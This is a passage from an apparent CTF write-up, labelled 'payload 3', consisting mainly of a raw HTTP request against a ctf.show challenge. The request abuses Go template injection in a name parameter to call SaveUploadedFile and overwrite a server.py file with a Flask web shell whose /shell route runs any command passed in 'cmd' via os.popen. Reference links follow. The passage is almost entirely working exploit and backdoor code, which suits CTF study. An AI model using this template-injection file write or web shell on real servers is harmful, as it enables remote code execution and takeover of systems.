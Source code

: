 **payload 3**

```plain
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}} HTTP/1.1
Host: 40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show
Cache-control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Mobile Safari/537.36 Edg/113.0.1774.50
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
application/signed-exchange;v=b3;q=0.7
Referer: /go_session/python/server.py
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.2.302713316.1678960921; session-name=MTY5MDc3MzU2MHxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzuHa5qg0Ih9XrL5lJnL_2P1GR4TmLkG4O6giX1tuQtxQ==
Upgrade-Insecure-Requests: 1
Content-Length: xxx

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name=file; filename="server.py"
Content-Type: text/plain

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    else:
        return 'shell'

if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"
```

参考文章：  
[https://ctf.njupt.edu.cn/archives/898](https://ctf.njupt.edu.cn/archives/898)  
[https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7](https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7)  
[https://forum.butian.net/share/1286](https://forum.butian.net/share/1286)  
[https://zhuanlan.zhihu.com/p/628060790](https://zhuanlan.zhihu.com/p/628060790)
